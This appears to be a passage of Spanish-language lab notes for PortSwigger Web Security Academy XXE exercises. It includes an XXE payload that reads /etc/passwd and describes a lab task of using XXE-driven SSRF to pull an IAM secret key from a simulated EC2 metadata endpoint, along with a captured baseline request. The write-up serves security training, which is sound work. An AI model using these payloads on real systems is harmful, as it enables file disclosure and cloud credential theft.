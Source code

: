 ```

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<stockCheck>
<productId>
&xxe;
</productId>
<storeId>
1
</storeId>
</stockCheck>
```
---
# Lab 2 : Exploiting XXE to perform SSRF attacks

Este laboratorio tiene una característica de "Comprobar existencias" que analiza la entrada XML y devuelve cualquier valor inesperado en la respuesta. 
El servidor de laboratorio ejecuta un punto final de metadatos EC2 (simulado) en la URL predeterminada, que es http://169.254.169.254/. 
Este punto final se puede usar para recuperar datos sobre la instancia, algunos de los cuales pueden ser confidenciales. 
Para resolver el laboratorio, aproveche la vulnerabilidad XXE para realizar un ataque SSRF que obtenga la clave de acceso secreta de IAM del servidor desde el extremo de metadatos de EC2.

![[Pasted image 20230814124020.png|1000]]

```
POST /product/stock HTTP/2
Host: 0a4300f30381a858844c05d100ba005e.web-security-academy.net
Cookie: session=xHHQ5Bygw4W73yMvI9XBqwWZqN9aizAc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a4300f30381a858844c05d100ba005e.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 176
Origin: https://0a4300f30381a858844c05d100ba005e.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Dnt: 1
Sec-Gpc: 1
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>
1
</productId>
<storeId>
1
</storeId>
</stockCheck>
```
![[Pasted image 20230814124522.png|1000]]
